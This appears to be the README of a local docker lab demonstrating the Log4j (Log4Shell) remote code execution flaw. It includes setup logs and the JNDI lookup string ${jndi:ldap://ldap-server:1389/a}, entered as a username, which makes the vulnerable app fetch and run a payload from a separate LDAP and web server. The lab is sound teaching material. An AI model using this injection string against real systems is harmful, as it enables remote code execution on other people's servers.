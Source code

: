 # Log4j POC
Proof of concept for the Log4j vulnerability (using docker containers).

Log4j is a logging library which is widely used in Java applications. All versions of the library from 2.0 to 2.17.0 (excluding 2.3.2 and 2.12.4) are vulnerable to remote code execution. In order to exploit this vulnerability, user input must be part of a log message.

## Requirements

Install the following requirements:

* Docker Engine
* docker-compose

## Usage

* Start the docker containers:
```
$ docker-compose up

Creating ldap-server    ... done
Creating vulnerable-app ... done
Attaching to ldap-server, vulnerable-app
ldap-server       | Enter: ${jndi:ldap://ldap-server:1389/a}
ldap-server       | Staring LDAP server: 0.0.0.0:1389
ldap-server       | Starting web server: 0.0.0.0:8000
ldap-server       | Listening on 0.0.0.0:1389
vulnerable-app    | 
vulnerable-app    |   .   ____          _            __ _ _
vulnerable-app    |  /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
vulnerable-app    | ( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
vulnerable-app    |  \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
vulnerable-app    |   '  |____| .__|_| |_|_| |_\__, | / / / /
vulnerable-app    |  =========|_|==============|___/=/_/_/_/
vulnerable-app    |  :: Spring Boot ::                (v2.6.1)
vulnerable-app    |
```

The docker-compose script will setup the LDAP server (including a web server) and a vulnerable application.

The vulnerable application runs on port 8080. The LDAP server runs on port 1389 and redirects to the web server on port 8000. This web server hosts a compiled version of the payload (ldap-server/Exploit.java).

## Demo

![screenshot](https://github.com/wesleydekraker/log4j-poc/blob/master/screenshot.png?raw=true)

* Go to: http://localhost:8080
* Enter username: ${jndi:ldap://ldap-server:1389/a}
* Enter password: test
* Submit form
* docker exec -it vulnerable-app ls -al

The ls command should show the file: hello.txt. This file is created by the payload (ldap-server/Exploit.java).


## Disclaimer

This repository is not designed for malicious use. The purpose is to help people learn more about this vulnerability.


